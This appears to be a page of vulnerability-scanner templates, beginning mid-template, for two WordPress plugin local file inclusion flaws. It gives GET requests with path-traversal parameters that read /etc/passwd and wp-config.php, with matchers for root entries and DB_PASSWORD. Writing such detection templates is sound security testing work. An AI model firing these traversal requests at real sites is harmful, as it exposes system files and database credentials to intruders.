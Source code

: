 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/amministrazione-aperta/wpgov/dispatcher.php?open=../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Wordpress HB Audio Gallery Lite - Local File Inclusion

## Description

- Wordpress HB Audio Gallery Lite is vulnerable to local file inclusion.
- severity - high
- tags - wp,packetstorm,wordpress,wp-plugin,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/hb-audio-gallery-lite/gallery/audio-download.php?file_path=../../../../wp-config.php&file_size=10

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---